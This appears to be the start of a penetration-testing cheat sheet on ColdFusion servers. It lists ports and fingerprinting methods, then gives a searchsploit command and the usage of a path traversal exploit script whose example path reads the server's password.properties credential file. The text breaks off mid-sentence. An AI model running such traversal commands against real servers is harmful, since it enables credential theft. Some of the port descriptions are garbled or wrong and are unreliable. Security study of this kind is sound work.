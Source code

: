 # **ColdFusion - Discovery & Enumeration**
| Port  Number | Protocol       | Description                                                                                                                                                                                                      |
| ------------ | -------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 80           | HTTP           | Used for non-secure HTTP communication between the web server and web browser.                                                                                                                                   |
| 443          | HTTPS          | Used for secure HTTP communication between the web server and web browser. Encryps the communication between the web server and web browser . Encrypts the communication between the web server and web browser. |
| 1935         | RPC            | Used for client-server communication. Remote Procedure Call (RPC) protocol allows a program to request information from another program on a different network device.                                           |
| 25           | SMTP           | Simple Mail Transfer Protocol (SMTP) is used for sending email messages.                                                                                                                                         |
| 8500         | SSL            | Used for server communication via Secure Socket Layer (SSL).                                                                                                                                                     |
| 5500         | Server Monitor | Used for remote administration of the ColdFusion server.                                                                                                                                                         |
## **Enumeration**

| **Method**        | **Description**                                                                                                                                                                                                                             |
| ----------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Port Scanning`   | ColdFusion typically uses port 80 for HTTP and port 443 for HTTPS by default. Scanning for these ports may indicate the presence of a ColdFusion Server. Nmap might be able to identify ColdFusion during a <br>services scan specifically. |
| `File Extensions` | ColdFusion pages typically use ".cfm" or ".cfc" file extensions. If you find pages with these file extensions, it could be an indicator that the application is using ColdFusion.                                                           |
| `HTTP Headers`    | Check the HTTP response headers of the web application. ColdFusion typically sets specific headers, such as "Server: ColdFusion" or "X-Powered-By: ColdFusion", that can help identify the technology being <br>used.                       |
| `Error Messages`  | If the application uses ColdFusion and there are errors, the error messages may contain references to ColdFusion-specific tags or functions.                                                                                                |
| `Default Files`   | ColdFusion creates several default files during installation, such as "admin.cfm" or "CFIDE/administrator/index.cfm". Finding these files on the web server may indicate that the web application runs on ColdFusion.                       |
# **Attacking ColdFusion**

## **Searchsploit**

```
searchsploit adobe coldfusion
```

##  **Coldfusion - Exploitation - Path traversal**

```
python2 14641.py usage: 14641.py <host> <port> <file_path>

example: 14641.py localhost 80 ../../../../../../../lib/password.properties
if successful, the file will be printed
```

Note: The `password.properties` file in ColdFusion is a configuration file that securely stores encrypted passwords for various services and resources the ColdFusion server uses. It contains a list of key-value pairs, where the key represents the resource name and the value is the encrypted password. These encrypted passwords are used for services like `database connections`, `mail servers`, `LDAP servers`, 
